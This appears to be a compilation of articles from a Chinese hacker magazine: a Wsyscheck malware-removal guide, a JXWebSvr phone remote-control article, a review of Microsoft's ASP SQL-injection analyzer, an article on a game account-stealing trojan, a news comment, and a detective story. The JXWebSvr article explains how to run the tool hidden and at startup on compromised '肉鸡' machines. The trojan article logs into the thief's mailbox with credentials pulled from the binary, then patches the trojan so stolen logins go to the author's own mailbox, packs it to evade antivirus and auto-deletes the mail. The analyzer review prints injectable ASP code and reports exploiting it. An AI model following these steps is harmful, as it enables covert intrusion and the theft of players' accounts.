通过右键菜单中的命令，我们可以方便地对进程进行操作。比如，现在要删除“CNNIC 中文网址”或“Baidu 搜索”等插件时，可以采用“直接删除模块文件”。本功能执行后看不到变化，但文件其实已经删除。

如果上述操作没能删除该插件，可以继续使用【卸载模块并删除文件】功能，它可以在恶意程序插入到某些重要的系统进程时（如 Svchost 进程或 Winlogon 进程），直接结束并删除该模块文件。

使用【添加到重启并删除列表】时，可以在系统重新启动后将选定的文件直接删除。使用过程中，建议只对红色显示的非系统模块进行删除处理，以免不慎删除系统模块。不建议单独使用【卸载模块】功能（为保险也可以与“重启删除”联用），原因是卸载系统进程中的模块时有可能造成系统重启而前功尽弃。

在上述操作中，大多数文件（如 Baidu 搜索）可以立即删除（进程模块可以直接使用右键下带删除的各项功能），加载的 DLL 文件删除后虽然仍然可见，但事实上已删除，重启后该文件消失。

有些狡猾的病毒或恶意软件，会因为木马有关进程未同时结束，而重新加载木马文件。针对这种情况，Wsyscheck 可以采取“0 字节文件占位”的方式来确保删除，这些文件在 Wsyscheck 退出后会被自动清理。现在，单击并勾选【软件设置】菜单下的【删除文件后锁定】选项，通过联合“内核检查”等功能继续进行清除。

# 二、联袂出击：通过“服务管理”与“内核检查”清理插件

无论是恶意程序还是正规软件，从 Windows XP 开始都以系统服务来启动所需的程序。点击【服务管理】后即可显示出当前系统中的服务信息，同样那些标注为红色的是非系统服务。通过【仅显示非微软】选项可以屏蔽系统自带的服务，这样恶意程序添加的服务项就可以立刻现形了，如图 2 所示。
**第 1 步：对重点怀疑的服务对象进行侦查**

点击【文件属性】、【定位文件】或【定位注册表项】，就可以了解这些服务的详细信息。选择正在启动的 cdnprot 服务，即可了解该服务的文件厂商为“中国互联网络信息中心”；然后在该服务上单击右键，在弹出的菜单中选择【定位注册表项】，即可查看详细的注册表键值，如图 3 所示。
此外，在右键菜单中，还提供了许多方便的服务功能。例如，【中止服务】功能可以在系统重启前中止服务，但并不是永久性地终止服务；【删除服务】则是删除指定的服务键值，不过在删除前一定要进行确认。另外，某些服务不提供终止服务，所以删除服务后它可能仍在运行，需要重启系统后才能真正停止其作用。下面，演示一个清除 cdnprot 服务的过程。

**第 2 步：首先尝试直接清理 cdnprot 服务**

实际操作中，某些顽固的恶意服务是无法中止或删除的。比如，现在针对 cdnprot 服务进行操作时，单击【删除选中的服务】，软件提示“删除服务键失败”，这是因为它可能采用了注册表键值的保护。对付这类服务，要使用软件提供的内核 Hook 检查中的 SSDT 恢复功能后，才能在本选项页中进行其服务删除操作。

**第 3 步：进行内核检查**

内核 Hook 检测只关注被恶意程序 Hook 了的内核函数，一般来说对应的模块提供者是一个 .sys 文件。在 SSDT 管理页中，默认显示了全部的 SSDT 表，红色表示内核被 Hook 的函数。查看第三方模块，可以点击“映像路径”标签进行排序，这样第三方 Hook 的模块会排在一起。也可以取消“全部显示”，则仅显示入口改变了的函数。以“CNNIC 中文网址”为例，它的驱动通过注册表和文件进行交叉保护，一般卸载工具都不能删除 cdnprot.sys 文件。SSDT 页的“代码异常”栏如果显示“YES”，则表明该函数被 Inline Hook，如图 4 所示。
为了配合清除恶意程序或病毒文件，Wsyscheck 提供了方便的辅助功能，包括：安全检查、文件管理和注册表管理。通过这些功能的配合，使得恶意程序往往无处藏身。在【安全检查】中，包括：常规检查、活动文件、IE 安全、端口状态、文件搜索、重启删除文件等选项。在“活动文件”中，可以准确地显示常规启动项的内容，便于用户发现潜在的恶意程序。在“文件搜索”选项中，“厂商搜索”和“排除微软文件”选项使用也十分方便，它能够有效地将有厂家的正规文件和没有厂家的恶意文件进行区分，从而有效清除系统中的病毒备份或找到未知病毒。此外，通过【端口状态】还可以详细地了解系统当前的端口状态。由于木马或其他远程控制软件通常会占用特定的端口，通过此功能，可以详细地了解木马运行状况，如图 7 所示。

**第 4 步：恢复系统底层原始函数地址**

发现木马修改了 SSDT 表时，建议首先恢复 SSDT，再做注册表删除等操作。对付这样的系统底层驱动，可以勾选并恢复成系统默认函数，以使其驱动保护失效。右键单击这些被检测出来的内核函数，在弹出的菜单中选择【恢复当前函数地址】。

**第 5 步：删除恶意代码的注册表项**

恢复系统底层原始函数地址后，回到【服务管理】选项卡中，就可以在服务管理页删除“CNNIC 中文网址”的注册表服务项了。由于底层 Hook 的优先级很高，所以恢复了 SSDT 后可能会有一些隐藏的进程或文件被显示出来，这时可以在恢复 SSDT 后再次检查各检测页状况，以删除受这些驱动隐藏保护的进程、注册表项等。

**第 6 步：解决 IFEO 劫持问题**

对于有些新病毒来说，如果上述操作方法仍然不能解决问题，可以使用进程页的“禁止程序运行”，我们可以使用它来屏蔽一些结束后又自动重新启动的程序；或者使用【软件设置】下的【禁止进程与文件创建】功能，可以针对木马的反复启动、反复创建文件、反复写注册表启动项等问题进行监视或阻止，使用本功能后能够更轻松地删除木马文件及注册表启动项。

开启【禁止进程与文件创建】后，会自动添加“监控日志”页，取消后该页消失。可以观察一下日志情况，以便从所阻止的动作中找到比较隐蔽的木马文件。

注意：如果木马插入系统进程，则反映的日志是阻止系统进程的动作，用户需要分辨该动作是否有害，并分析该进程的模块文件。
在【文件管理】中，由于 Wsyscheck 采用了一些 Hook 手段，所以内置的资源管理器可以看到隐藏的文件或文件夹，这样就能够方便用户进行隐藏文件的相关操作。对于利用系统本身特性隐藏的文件，比如 Windows 中的某些文件夹，或者利用 Rootkit 技术隐藏的灰鸽子、hackdef100 等隐藏文件，内置的资源管理器都可以一览无遗。

在【注册表管理】功能中，提供了常见的注册表管理功能，如：通过下拉菜单，可以方便地找到【HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run】等路径。不过，注册表功能通常与其他功能联手操作，如发现恶意的服务或进程时，通过点击右键即可找到该键值。

除了上述查看工具，还可以利用系统防护工具继续对系统进行清理。例如，通过【安全环境】按钮，软件会关闭一切不必要的程序，以此创造一个干净的系统环境。某些木马会破坏安全模式的键值导致无法进入安全模式，我们可以单击【工具】菜单下的【修复安全模式】选项，本功能可以先备份当前安全模式键值，再恢复默认的安全模式键值。手工清理完毕，还可以执行【清理临时文件】、【清理 IE 临时文件】、【清除 Autorun.inf】等。

通过上面三个层层递进的过程，软件对目前典型的恶意程序或大部分未知的病毒都能有效侦查并及时清理，在清理病毒的过程中还要注意重启机器。当然，清理完毕，可以切换到文件搜索页，限制文件大小为 50K 左右，去除“排除微软文件”选项，然后搜索最近一周新增的文件。通过此方法可以进一步筛选出病毒文件，并将其彻底删除。这样，系统又可以恢复到正常状态了。

**第 7 步：解决重启之后的错误提示问题**

现在，已经对重点的恶意程序进行了清理，但重新启动后系统依然出现提示，如图 5 所示，显示“加载 C:\progra~1\Baidu\iexp\BDSRHook.dll 时出错，拒绝访问。”
出现这种情况可能是系统启动时依然有残留的程序痕迹，在【开始】→【运行】中输入“msconfig”命令，打开系统配置实用程序，去掉 BDSRHook 启动项目选择项，如图 6 所示。重新启动后，此问题得到解决。

# 三、锦上添花：文件搜索、文件浏览及注册表查看功能

# 利用 JXWebSvr 实现手机控制电脑

DesertEagle[BlackArm]

从本文你可以学到：

- 如何利用 JXWebSvr 实现手机对电脑的控制以及一些技巧

## 前言

如今智能手机的扩展功能以及强大的 CPU 处理能力，已经可以说能当掌上电脑用了。既然能当电脑用，就来说说用它控制电脑的方法吧。先说说控制原理，其实很容易理解：JXWebSvr 原本是一款实现用户通过网页控制电脑的软件，因此首先手机的浏览器要支持 HTML，要能上网。

再来说说 JXWebSvr 的功能，这款软件能实现本地硬盘以及光驱、可移动磁盘里的文件浏览、下载；可实现屏幕控制（非触屏的手机只能查看不能控制）；操作计算机的关机、重启、注销等。

## 电脑上的配置

现在开始进入正题，打开 JXWebSvr，如图 1 所示。

注意界面下方的“呼出窗体按键为 Shift+*（right）”，以后可能会用到。开始配置，点“更多选项”进入如图 2 所示界面。

“启动远程控制”这项是必须选上的。如果是想控制肉鸡的话，建议把“随系统启动”和“运行时隐藏窗体”选上，并把“隐藏时建立托盘图标”取消。为了防止别人控制我们的肉鸡，因此要在“安全设置”中加个密码，如图 3 所示。

电脑上的就配置好了，点“确定”，“隐藏窗体”最小化程序。
图 1
图 2
图 3

## 在手机上使用

现在使用手机的浏览器，设置打开页面为自己的 IP，如 119.112.71.151，按照这个格式填写。端口写你设置的端口（默认为 81），后面的 begin.jxasp 都不用变，如图 4、图 5 所示。

浏览器在提交后，提示输入用户名和密码，这两项就是咱们在电脑上设置的，如图 6、图 7 所示。

提交后就开始控制了，如图 8 所示。

好了，功能大家就自己研究吧，我就直接上图啦，呵呵。控制电脑的功能包括：文件浏览（如图 9）、屏幕控制（如图 10）、文件查找（如图 11）、密码设定（如图 12）、关机（如图 13）、注销（如图 14）。
图 4
图 5
图 6
图 7
图 8
图 9
图 10
图 11
图 12
图 13
图 14

## 高级技巧

在电脑上创建一个快捷方式，然后复制到手机中，这样就可以在手机上点击进入了，省得每次都输入地址，如图 15、图 16 所示。
图 15
图 16

使用时可能会发现，肉鸡的 IP 总是变，解决的办法就是捆绑个域名就行了，笔者是使用“花生壳”搞定的，如图 17、图 18 所示。例子中的书签地址是：http://deserteagle.vicp.cc:81/begin.jxasp。
图 17
图 18

## 序言

首次测试环境：WinXP + Motorola ROKR Z6，写文章时测试环境：WinXP + Motorola RAZR V8。此文没什么太高深的技术含量，只是让大家换个思路用咱们的移动设备来控制电脑，呵呵。废话少说，欢迎网友和我交流，有不足的地方请指教。

编辑点评：

不知道这个 JXWebSvr 软件会不会被各大杀软当成鸽子之类的远控来查杀？似乎作者也没有把它当成一种远程控制软件，而是一种远程后门了，文章中提到“肉鸡”、“运行时隐藏窗体”等字眼就可以说明这一点！不过，作为一种技术的交流来看，感谢作者为我们带来了一款不常见的远控方式，大家好好研究下吧！

# 体验微软的 ASP 注射漏洞分析工具

图落叶纷飞[J.L.S.T] @ 肇庆

从本文你可以学到：

- 了解微软的 ASP 注射漏洞分析工具及其使用方法

微软最近发布了一款专门针对 ASP 的 SQL 注射漏洞分析工具，可能各位读者都已略有所闻了吧？这也从侧面反映出 SQL 注入漏洞已经受到众多开发商和程序员的重视，但是微软现在才发布这款工具，会不会太迟了呢？不过迟归迟，微软出品的软件肯定不会差到哪去！废话不多说了，下面我们就来体验一下这款 ASP 注射漏洞分析工具的强大功能吧！这款工具是在命令行模式下运行的，如图 1 所示。
图 1

由于工具的介绍是英文的，所以在这里我还是来解析一下它的使用参数吧。

| 参数 | 选项 | 说明 |
|---|---|---|
| /globalasapath | 路径 | 显示 global.asa 文件的路径 |
| /includepaths | 路径 | 使用虚拟路径显示所含的解析文件的路径，中间以分号分隔 |
| /input | asp 文件 | 显示必须分析的 asp 文件的绝对路径 |
| /suppress warnings | 无 | 不报告警告 |
| /nologo | 无 | 不显示工具徽标 |
| /quiet | 无 | 不显示分析错误，如果你使用“/nologo”和“/quiet”开关，则只显示警告消息 |

程序运行的命令形式如下：

```text
asp.exe /input="F:\web\index.asp"
asp.exe /GlobalAsaPath="F:\web" /input="F:\web\index.asp"
asp.exe /GlobalAsaPath="F:\web" /input="F:\web\index.asp" /IncludePaths="F:\virtualdirectory01;F:\virtualdirectory02"
asp.exe /input="F:\web\index.asp" /suppress="80406;80407"


```

下面我们就来进入实战吧！在使用前，我们首先要安装这个软件。运行它的安装程序后选择好路径，然后点“OK”按钮就能成功安装了，如图 2 所示。
图 2

安装好软件后，我们进入 cmd 模式，再进入到工具的安装目录，然后输入“asp.exe /input="待分析文件的绝对路径"”。不一会儿，程序就会返回分析结果了，我的分析结果如图 3 所示。
图 3

从图 3 中可以看出，我们分析的这个文件存在明显的注射漏洞，在第五行前面部分有“comment.asp(9)”这样的文字，说明问题出在了 comment.asp 文件的第九行代码中。至于下面的那段文字，是工具给我们描述的漏洞信息，新手朋友可以不必理会，但想了解其内容的朋友也不必灰心，后面我会作解释的。现在我们就来看看这个文件的漏洞代码吧！

漏洞代码如下：

```text
…省略…
7 行 newsid=request("newsid")
8 行 set rs=server.CreateObject("adodb.recordset")
9 行 rs.open "select id,title from news where id="&newsid&"",conn, 1,1
…省略…


```

嘿嘿，是个明显的注入漏洞哦！从代码中我们可以看出，“newsid”变量是直接用 request 来取值的，说明我们可以使用 get、post 和 cookies 三种方式来进行注入攻击。由于用 post 方式注入时服务器不会进行记录，而 NBSI 也只支持 get 和 post 的方式注入，所以我就用 post 的方式来测试这个漏洞吧，注射结果如图 4 所示。
图 4

嘿嘿，注入漏洞成功利用了！细心的朋友可能已经注意到了图 3 中的“warning”警告标识，但并不知道其含义，现在我们就来说说这款工具的警告标识的含义吧！

80400在未经任何输入验证的情况下，从请求对象读取的数据中可能存在 SQL 注入漏洞，这些警告很可能是必须修补的 bug。这种一般都是初级的注入漏洞。  
80406

在通过某些可能执行数据验证的未知函数调用，来传递输入数据的情况下，从请求对象读取的数据中可能存在 SQL 注入漏洞。如果函数调用内部未进行数据验证，这些警告很可能是 bug。否则，这些警告为误报，应该是通过调用一些没做过过滤的函数，执行的 SQL 语句。  
80403

来自于后端服务器的数据中可能存在 SQL 注入漏洞。如果这些数据是由最终用户通过其它网站控制，则这些警告很可能是 bug。但是，如果这些数据可信度很高，则这些警告可能不是 bug。作为深度防御策略的一部分，实行查询的参数化不失为一种好做法。  
80407

来自于后端服务器，并非通过某些未知函数调用，来传递输入数据的情况下，从请求对象读取的数据中可能存在 SQL 注入漏洞。如果这些数据是由最终用户通过其它网站控制，并且未对这些数据进行数据验证，则这些警告很可能是 bug。  
80420

函数参数中可能存在 SQL 注入漏洞。这些警告是在函数作用域生成的，因此，如果这些函数参数值的来源不可信，则这些警告可能为漏洞。如果这些数值是由最终用户控制，则这些警告可能是 bug。您可以对这些函数参数使用 _sql_pre_validated 批注来检测最终用户是否能够访问此代码。  
80421

在通过某些可能执行数据验证的未知函数调用传递的函数参数中，可能存在 SQL 注入漏洞。您可以对这些函数参数使用 sql_pre_validated 批注，并对验证函数使用 sql_validate 来检测最终用户是否能够访问此代码。  
80422

微软出品的这款 ASP 注射漏洞分析工具确实很不错，特别是它的智能漏洞描述功能，如果有点英语基础和 ASP 基础的朋友可以阅读一下，我想应该是很有收获的。另外，这款工具不仅能够分析出简单的 ASP 注射漏洞，较为复杂的也不在话下。

但工具毕竟是工具，无论它再智能也不能代替人脑，所以有时候还可能存在误报和非法操作等问题，而美中不足的就是它只支持基于 ASP 语言的注射分析。

好了，文章到这里也快结束了，写多了脚本入侵和漏洞分析的拙文，现在也该来写写其它类型的了。呵呵，大家还在发什么呆？赶快去体验一下这款强大的 ASP 注射漏洞分析工具吧！

> [文章中提到的工具已收录本期光盘中]

# 编辑点评

这个工具我觉得对于那些比较懒，又想去发掘 ASP 脚本漏洞的人来说是个好事；对于那些想学习脚本漏洞挖掘的初学者来说，也是一个好事。

# 反盗号之跑跑卡丁车木马及再次利用

图 Phenix

# 从本文你可以学到

- 如何对盗号程序发起反击

时下流行的网络游戏“跑跑卡丁车”，大家都不陌生吧？在百度的跑跑卡丁车贴吧里，经常有些无聊的人来此处发木马，骗人来点击，进行猖獗的盗号活动。这种人我早就想治治他了，正巧今天来了一个机会，发现了一个发病毒的人，借此机会和大家共享一下我的思路，惩治下他吧！

这个人发帖子：“跑跑双开软件，赶快下载吧，无毒并且免费，欢迎试用”，如图 1 所示。
看提供的链接是比较流行的 FS2YOU 网络硬盘，那我就进去看看他耍的什么花招。进入了他的网盘，就凭文件太小，第一感觉就是个木马，如图 2 所示。
下载回来看看这个东西是什么结构。打开虚拟机进行调试（大家也应该有这种习惯，有什么不知道的木马或者病毒，去虚拟机里调试，这样就几乎没有任何后顾之忧了！），解压缩后看看使用说明，如图 3 所示，还挺会忽悠的。
接下来用 Stud_PE 这个工具查下壳，如图 4 所示。

C++ 6.0 写的，没有加壳，省去了脱壳的麻烦。为了能够研究这个木马，我需要对它进行反编译，我比较喜欢 c32asm 这个软件，选择十六进制模式，如图 5 所示。
然后总体地浏览一下，发现了一个比较吸引人的地方，如图 6 所示，被我框起来的部分。
这个应该是一种信箱式的木马，信箱为 cxc_19871228@sina.com，密码是：19871228。我们根据邮箱线索到 sina 的邮箱登录，登录成功，如图 7 所示。
看看它收的信，登录跑跑测试下，果然可以登录，并且账号有 40000 多金币。本想一起做个免杀的，这个木马本身目前免杀大部分杀软，基本上常用的杀毒软件都不报警！这样我们还可以将他的木马“变”为我们自己的木马来做研究之用！

我们在十六进制下改变它的邮箱地址以及密码为我们自己的邮箱地址和密码。继续祭出 c32asm，查找邮箱为 cxc_19871228@sina.com，进行替换操作改为 abc_00000000@sina.com，密码查找 19871228，进行替换为 13145210。为了防止不必要的错误，我们还是采取位数相等的替换方法，如图 8 所示。
图 8

图 9

接下来我们去测试一下，看看是不是工作正常！登录游戏，查看邮箱正常收信！如图 9 所示。

这样我们就完成了从整治盗号者到把盗号者的木马改为自己所用的目的。为了防止别人以其人之道还治其人之身，我们可以给这个改后的木马加重壳，一般的菜鸟就不会轻而易举地搞到手了。

这里我再介绍一个简单的方法来快速收信，就是利用 QQ 的“其它邮箱”来快速收信 + 删除，这样即便是别人查到了盗号的邮箱也不会影响到你的“战果”。这里设置时记得要把“在原邮箱中保留邮件备份”的勾去掉，其它的 2 个选项勾选，如图 10 所示。
图 10

这样，sina 邮箱中的信在你接收之后就不会存在了，并且是实时的！

我写这个文章的目的是希望大家充分利用周围的资源，看到别人发木马不要抱怨，发散思维加以利用才是王道！

# 编辑点评

作者的开头一部分写作意图比较值得赞赏，可到了后面就不太让人为之叫好了！难道作者不怕别人以其人之道还治其人之身么？呵呵，还是好好学习才是正经。

XApache：

很奇怪这次俄罗斯队的表现为何与上届奥运会相差那么多，莫非是队员们都惦记着发生在俄罗斯南部的战争，无心比赛？话说 8 月 8 日那天晚上，格鲁吉亚无视奥运停战的号召，突袭南奥塞梯。随后俄罗斯军队与南奥塞梯自治州武装人员并肩作战，迅速地击退了格军，并将战火引入了格鲁吉亚境内的其它领土，格鲁吉亚首都附近多个军事目标遭到打击，人员伤亡惨重。同时，俄军的海军部队也已经进入格鲁吉亚分离地区阿布哈兹参加战斗，并击毁多艘格军舰艇。我们希望事态不要继续扩大，如果到了不可收拾的地步，北约会毫不手软地参战，亚洲和欧洲都将成为战场，世界将陷入战争的泥潭，这是我们都不愿看到的。让我们共同祝愿南奥塞梯冲突能早日结束，让来之不易的和平继续下去。

5 月 9 日

夜黑的寂寥，像是酝酿着什么，荧屏闪烁，冰冷的笑意隐藏在深夜。  
MSN 的提示闪动着。  
舞姬说：  
明天中午我在那里等你。

5 月 10 日

“嗯……还有什么没买吗？大丰收大丰收，蛋糕、果冻、巧克力、薯片……嗯，不错不错。”苏景背着手摇头晃脑地迈着大步，任由身后哥哥的抱怨像风一样飘过耳边，“你就不能帮忙拿点，几乎都是你的东西啊，真是的，你这是虐待哥哥，你有没有人性啊……”

所谓的“陪哥哥逛街”，在苏景的字典里解释为“帮哥哥减轻钱包和信用卡的内存以及锻炼哥哥手臂和腿部的肌肉”，是件非常“伟大”的事。在这霓虹交错的夜里，苏景突然有种“其实启山这个不大不小的城市还是很繁荣的”感觉。眼前不远处那个金碧辉煌的宫殿，在夜色下闪着耀眼金光的便是启山最豪华的宾馆——帝祥宾馆，总共 20 层，也是启山最高的建筑。从这点看，启山也不怎么样。

“咚！”……霓虹灯不再闪烁，汽车没有鸣笛，时间似乎瞬间静止了。什么东西掉下来了？溅得到处都是，黏糊糊的，满眼满世界都是红色……红色！？——血！几秒钟后，尖叫声此起彼伏，苏景猛地抬头朝那“东西”掉下来的地方看去。

“快叫救护车和警车！快！”苏景一边朝人群大叫，一边俯下身摸了摸眼前这个血肉模糊的人的颈脉。“叫警车就可以了。哥，到宾馆门口去。”她看了一眼手表，8 点 24 分，随后戴上随身携带的塑胶手套开始检查。

死者是一个中年男人，虽不是十分壮实，却很高大，头部已经血肉模糊了。苏景掏出便携式的手电，仔细观察着这男人的头部，又贴近男人的嘴边嗅了嗅，微微紧了紧眉头，若有所思地继续检查。不一会儿警车呼啸而来，迅速包围了现场并开始疏散人群，苏景趁乱挤出人群溜到英泽身边。

“刚刚有没有可疑人出来？”苏景看了眼英泽，忽又专注地看着他的脚，右手微微蜷缩搭在嘴上，左手架起右手手肘。

“没有，你又在想些什么？”英泽看到她特有的思考姿势，感到一丝不安。

苏景没有理会他，看了看自己满脸满身的血，嗤地一声笑了出来：“看来，只能……哥，你到里面的电梯口等我。”说完，便走进宾馆径直跑到前台。

“你……这……”接待员看见满身是血的苏景吓了一跳。

“我找我妈，爸爸出车祸了，流了好多血，就快不行了。听说她在和一个客户谈工作，可是我不知道那个客户在哪个房间……我……我……”说着苏景便一把鼻涕一把眼泪地哭了个昏天黑地。接待员小姐顿时慌了手脚，“把名字报出来，我帮你查。”

“我不知道客户的名字，我知道她在高级客房，呜呜……”

“高级客房……1701、1703、1704、1706 和 1708 房。”服务员姐姐看着客房记录，“这么多，还知道什么吗？”

“点了很多菜和一瓶 Andalus Petit Verdot 2003，整个下午都挂着‘请勿打扰’牌子的是哪个？”苏景一边抹着泪一边偷瞄着记录。

“1703 房的王永美小姐和 1704 房何远强先生。小妹妹，别太担心了，你爸爸会没事的，我现在打电话给他们帮你确定。”

“啊？不用了不用了，我立刻上去找，谢谢谢谢，呜呜……妈妈……”说着，苏景又梨花带雨地跑到电梯并一并把英泽拉进里面。

英泽还没转过神，一回头电梯里的妹妹正在脱衣服，一副姣好的身材很快显露在他眼前。“你……你……干什么？”英泽中风似的指着苏景不停地晃悠着，脸像插进沸水的温度计，温度直线上升。苏景一边若无其事地从包里拿出刚给哥哥买的衬衫，一边老成地教育道：“哥哥啊，好歹你也是从美国回来的新时代知识分子，这点小事你叫什么，你难道要我满身是血去见人家？”

“你刚刚在干什么？你找他们干什么？”英泽不解地看着苏景。

“抓犯人。”转眼苏景已经换好衣服。

“你不能去。”英泽一把抓住苏景的手，脸上是从未有过的严肃。苏景挣扎地想说为什么，可“为”字还未出口又被哥哥的话堵了回去，“让你在网上过过瘾已经很宽容了，这件事警察自然会管，用不着你插手！回家！”说着英泽便伸手去按电梯按钮，苏景另一只手搭在他的手臂上，刘海遮住了她的脸，看不清她的表情，但那只手里传来的是无尽的悲伤，“警察？恐怕已经认定为自杀或饮酒过多意外坠楼了吧。那件事也是这样……”

“难道不是这样吗？”英泽偏过脸不忍看她的表情，松开了手。

苏景抬起脸认真地看着英泽，拿出刚换下的衣服。“这件衣服已经满是血迹了，那么你的衣服呢？很干净是不是？可是虽说他是掉在我脚边的，但是哥哥你当时就在我身后不远处，为什么你的衣服那么干净，只有脚边才溅到一点点？”

“这个，因为……对啊，为什么啊？”

“这就是第一点，出血量太少。死者的头部已经不成样子了，可是为什么出血量这么少呢？你不会想说是他贫血吧？第二，我们走的是人行道吧，也就是说尸体离楼大约在 2 米多，3 米不到，你知道这说明了什么吗？”

“大约 2 米多，3 米不到，人行道……”英泽也开始思考起来，“难道……”

“嗯，如果是自杀跳下来的话，一定会有一个向前冲的动作，这就有了水平初速度，掉下来时应该是抛物线，你不觉得他应该落在更远一点的位置吗？”

“你难道想说他是被人扔下来的？”

苏景没有理会他的质疑，继续说着：“第三，死者头部有块干了的血块，当然，不注意的话是看不到的，而且当警察赶到，法医鉴定时已经有了时间差，就算发现血块也不会注意了。但他摔掉在我脚边的，如果是当场毙命，怎么会有已经凝固的血块？第四，他的肚子鼓鼓的，吃了很多东西，还喝了很多 Andalus Petit Verdot 2003……”

“Andalus Petit Verdot 2003？你怎么知道？”

“爸爸的爱好之一就是葡萄酒收藏，从小我就尝遍各类葡萄酒。大部分酒只要闻过，我都可以准确说出品牌和年份。死者的嘴里有浓烈的奇异酒香，带着香料味与野莓、黑莓、黑醋栗，还有巧克力、松露等香味。而 Andalus Petit Verdot 2003 是采用极为少见的葡萄品种 Petit Verdot 100% 酿成的，有明显的紫罗兰香气，含带丰富的深色莓果味道，酒味厚重而高度浓密……那人都要自杀了，哪来那么好的胃口？第五，后颈有很多死后造成的擦伤，也就是说他是被人头朝下、面朝外，慢慢往下放的。自杀的人能做到吗？Andalus Petit Verdot 2003 是难得一见的好酒，市价上千，死者一定与高级客房的那两人之一有关系。我一定要去查出真相。”

“不，不可以，太危险了。”

“只是一男一女，对我们这样的两人，构不成威胁。”

“我不是说这个，反正，你不能去。”

“我一定要查出真相，哥！”

“叮咚。”电梯门打开，两个人沉默地站着，电梯门再次合上的一瞬间，一只手拦住了门，“但是……”

“我知道。”苏景把哥哥拉出电梯，从购物包里拿出刚买的棒球帽戴在头上，压了压帽檐，抬头看着英泽，“这样 OK 了吗？”

“你小心。”英泽最后叮咛着，他拿这个妹妹真是一点办法也没有。

“有哥哥在呢，而且——”苏景调皮地看了看英泽，“还有许多天使时刻保护我呢。”天使？世界上哪有天使？真有天使，也要有人保护啊。看着苏景远去的背影，英泽总觉得有些忐忑。

“对了，进门后掐着自己的虎口。”苏景回头，意味不明地笑了笑，“等会告诉你原因。”

转眼已到了 1703 号房，门口挂了“请勿打扰”的牌子。

“咚咚咚，客房服务。”苏景压了压帽子，开门的是一个风韵十足的美女，齐腰的长发撩人地垂过耳际。看见眼前的人不是服务员，她皱了皱眉正欲关门，幸好苏景眼疾手快一把抵住门挤了进去，“我们是警察。”苏景的声音听起来有些悠远又有点飘渺。

说着，苏景扫视房内，欧式的布置，昏黄的灯光使房间更添几分幽雅与华贵。房间很干净，送餐车上凌乱地放着空盘和酒瓶，停靠在门旁。地板和窗台在灯光的照射下闪闪发着光，床边的小台上是一个精致的玻璃烟缸和一块白色毛巾，墙角的垃圾桶里散乱地躺着些烟头。

“什么事？”女人有些厌恶地皱了皱眉。

“哦，1705 房发生盗窃案，我们是来提醒您小心自己的随身物品的。”苏景说着，看了眼浴室。

“不是高级宾馆吗？居然还有这种事？！”女人双手交叉抱在胸前不满地抱怨着。

“总之，注意自己的随身物品。”苏景退出房间，走向 1704 房，刚要敲门，一个冷漠的男声从里面传来：“这次我的目标是 CAT。”

英泽紧紧拉住苏景的手，希望她不要进去，苏景朝他笑了笑，敲开了门，“我们是保安，1705 房发生盗窃案，我们是来提醒您小心自己的随身物品的。”

房内布局是一样的，一个和苏景差不多大的男生坐在床边摆弄着电脑，听到有人进来，抬头和苏景对视了一眼又继续摆弄电脑。开门的男人看起来十分威严，目光犀利地看着他俩，英泽隐隐觉得有些眼熟，可没想起是谁便被苏景拉出了房间。

“玩够了吗？回去吧。”英泽有些担心。

“去 1703 吧。”苏景完全听不到哥哥的话。

“又干嘛？”

“抓犯人。”

“又是你们？”女人不耐烦地看着他们，双手交叉在胸前。

“你中午有没有和一个男人在这里用过餐？”苏景压了压帽子。

“没有。”女人偏过头平静地说。

“哦？是吗？”苏景逼近那女人，微微抬起头，“我看不仅是吃了，那人还喝了很多 Andalus Petit Verdot 2003 吧。哎，真是不懂品位的人，这么好的酒就这样乱喝，你当时是不是这么想的呢？”

“警察也不可以随便乱说，小心我告你诽谤。”

“诽谤？诽谤我们什么？”苏景坏坏地笑着，继续用那自信的口气逼近着。

“你们污蔑我杀人，不是诽谤是什么？！”女人搭在左臂上的右手稍稍用了用力，抬起下巴，挑衅地看着苏景。

苏景的嘴角微微上扬，“哦？原来是你杀了那人。”

“我没有！”女人很生气，直勾勾地瞪着苏景，咬着嘴唇。

“我可没有说什么杀人的事，我们只说过 1705 房发生盗窃案，我们是来提醒您小心自己的随身物品的，你忘了吗？”

“你……你……”女人的嘴颤抖着，半天吐不出一个字。

“还是我来替你说吧。中午，你和死者在这里吃饭，故意点了 Andalus Petit Verdot 2003。死者喝了很多，但是 Andalus Petit Verdot 2003 的酒性很烈，通常的醒酒时间为 1—2 小时。死者喝醉后，你便用那烟灰缸砸死了他，然后挂上‘请勿打扰’的牌子，清理房间的血迹，到晚上便趁着夜色把尸体从这窗户扔下去。这就是为什么我们进来的时候你的额头有汗。”苏景走到窗前，往下看去。

“那男人是一个恶魔，以我曾经盗窃入狱的事不停地敲诈我。我好不容易才找到一个对我好的老公，绝对不可以被他破坏我们的夫妻感情！”女人含恨闭上眼睛，泪如雨下。

“我们可以假装不知道你的罪行，与其被捕不如去自首，那样可以减轻罪行。你老公如果真的爱你，他是不会介意的。”苏景压了压帽子，拨通警局的电话交给女人。

“怎么那么轻松就知道是那个女人干的？”英泽一边在厨房里忙活着，一边问着。

“地板、窗台都干净得发光，烟灰缸也干净得闪闪发光，也就是说那个女人不吸烟，可是垃圾桶里却有烟头，那是哪来的呢？”

“直接扔在垃圾桶里的呗。”英泽把螃蟹下了锅，一阵噼噼啪啪的翻炒，顿时香味四溢。

“我倒觉得，是某人吸了烟，把烟头扔在烟灰缸里，然后因为犯人用烟灰缸做了某事，不得不洗干净那个缸……好香，多加点辣椒。”

“难道不是清洁工做的吗？”英泽又倒了点辣椒油。

“门外挂着‘请勿打扰’的牌子，清洁工不会进来的，垃圾桶里的烟头也不可能是上个客人的，那只有是中午某人在这里吸过烟这一个答案了。另外，烟头的牌子和死者口袋里的是一样的。”苏景突然趴在饭桌上揉着肚子，“先别问那么多啦，哥，饿死我了，快点。”

“那个 1704 房的男人……”

“他？他不是启山新任的公安局长吗？前两天新闻里才播过。”

“公安局长？怪不得你在他面前自称保安——不对，你怎么有钱住那种地方！！”

“先天资本，懂不？本来就是一个有钱的大家族。人家那是贵族警察，不过我觉得他儿子挺厉害的。”

“厉害？”

“嗯，长得真的很好看……”苏景捧着脸两眼变成心形回想着那次对视。

“什么？！”英泽钢铲掉到了地上，脸色黑黑的，“绝对可疑！”

“什么嘛，人家是侦探，和我一样。”苏景摆摆手。

“啊？”刚捡起的钢铲再次与大地亲密接触。

“我的香辣炒蟹。哥，你能不能抓牢你的铲子？高明的侦探之间有着一种微妙的关系，只要对视一眼基本就可以分辨出来了，就和警察与小偷的关系一样，只要对视立马分出身份。”

